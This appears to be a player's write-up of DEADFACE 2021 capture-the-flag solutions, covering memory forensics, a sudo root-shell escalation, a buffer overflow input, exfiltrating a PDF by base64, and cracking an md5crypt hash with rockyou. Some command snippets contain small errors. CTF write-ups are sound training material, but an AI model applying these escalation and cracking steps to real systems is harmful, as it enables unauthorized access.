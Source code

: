 <p align='center'>
  <img src='assets/img/logo.png' width='350px' />
</p>
<!-- ![deadface logo](./logo_deadface_2021.pdddng) -->

## Badges
<div align='center'>
  <img src='assets/img/competitor.png' width='150px' />
  <img src='assets/img/author.png' width='150px' />
</div>

## Challenges 
---
### Forensics
#### Windows 1
##### Solve
Download and extracting the memory dump then inspecting the image with volatility showed the operating system, version and date of the image.

```bash
$ volatility -f ./physmemraw imageinfo
Volatility Foundation Volatility Framework 2.6.1
INFO    : volatility.debug    : Determining profile based on KDBG search...
          Suggested Profile(s) : Win10x64_19041
                     AS Layer1 : SkipDuplicatesAMD64PagedMemory (Kernel AS)
                     AS Layer2 : FileAddressSpace (/dumps/physmemraw)
                      PAE type : No PAE
                           DTB : 0x1aa000L
                          KDBG : 0xf8005e600b20L
          Number of Processors : 4
     Image Type (Service Pack) : 0
                KPCR for CPU 0 : 0xfffff8005ba60000L
                KPCR for CPU 1 : 0xffff82804f9c0000L
                KPCR for CPU 2 : 0xffff82804f5e8000L
                KPCR for CPU 3 : 0xffff82804f7ca000L
             KUSER_SHARED_DATA : 0xfffff78000000000L
           Image date and time : 2021-09-07 14:57:44 UTC+0000
     Image local date and time : 2021-09-07 07:57:44 -0700
```
Taking this infomration we get the flag 
##### Flag
`flag{Win10_x64_202109071457}`

---

#### Bloody Bash 1 & 2
##### Solve
My solve for this probably wasnt the intended method, but it worked
```bash 
grep -iR flag /home
```
This provided back the flags for `bloody bash 1` and `bloody bash 2`
##### Flag
`flag{cd134eb8fbd794d4065dcd7cfa7efa6f3ff111fe}`
`flag{a856b162978fe563537c6890cb184c48fc2a018a}`

---

#### Bloody Bash 3
##### Solve
This was solved by finding the root elevation method by listing out users sudo rules
```bash
$ sudo -l 
Matching Defaults entries for bl0ody_mary on ad3c9aa87fe2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User bl0ody_mary may run the following commands on ad3c9aa87fe2:
    (ALL) NOPASSWD: /opt/start.sh, /usr/sbin/srv
```
From this list there is 2 paths that are interesting. Checking out the first `/opt/start.sh` 
```bash
$ cat /opt/start.sh
#!/bin/bash

sudo /usr/sbin/srv &
exec /bin/bash
```
The script has an `execve` for a shell instance which give you a root shell. 

Using the root access method from `bloody bash 3` and looking at the script at `/opt/start.sh` we can see that there is a call made, and pushed to background, that starts up a listener script. Looking at the script you can see that there is a kex string. Decoding the string provides the final flag for this container.
```python
flag = '666c61677b6f70656e5f706f727428616c29737d'
print( bytes.fromhex(flag).decode() )"
```
##### Flag
`flag{open_port(al)s}`

---

#### Bloody Bash 4
##### Solve 
Looking for the flag in the remainder of the container didnt return any results. Looking back at user `bl0ody_mary` home directory there is a PDF file. `strings` doesnt return anything (installed via apt as no restrictions to network) and `grep` has the same result on the file for `flag`. 

There is no way to view the PDF locally as its a remote terminal so I tried to copy the file back with `scp` but was not able to as the user. This was probably a permission issue in sshd_config but I didnt want to look at that as it was a single file that wasnt too big. 

Base64 encoding the PDF and copying via clipboard to my local machine allowed me to get the PDF local and view in a PDF reader.

```bash
$ cat De\ Monne\ Customer\ Portal.pdf | base64 -w0
```
Taking this data to my local machine to rebuild the raw PDF
```bash
$ cat <EOF >x.pdf 
...
...
...data.
...
...
EOF

$ xdg-open x.pdf 
```
The flag should be visible in the PDF document.

##### Flag 
`flag{deM0nn3_dat4_4_us}`

---
---

### Exploitation
#### Old Devil
##### Solve 
A single binary that asks for the devils name. If its provided a long enough input it will overflow and dump the flag. 
```bash
$ ./deamon

Luciafer v1.0
Say the demon's name to gain access to the secret.
Enter the demon's name: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

That is not the demon's name.
flag{AdraMMel3ch}
zsh: segmentation fault  ./demon
```
##### Flag
`flag{AdraMMel3ch}`

---

#### Password Insecurities
##### Description
Players are presented with a mysql databased dump and asked to get the flag for a particular user.
##### Solve
Getting the users hash from the database is a simple 
```sql
select cust_passwd from customer where first_name = x and last_name = y;
```
The hash is a md5crypt `$1$salt$password` format. Dump the hash into a file and use john with rockyou to get the password
```bash
$ echo '$1$FigUPHDJ$IYWZKYxoKDdLyODRM.kQq.' > hash
$ john hash /usr/share/wordlists/rockyou.txt
$ john hash /usr/share/wordlists/rockyou.txt --show
?:trustno1
```
##### Flag
`flag{trustno1}`
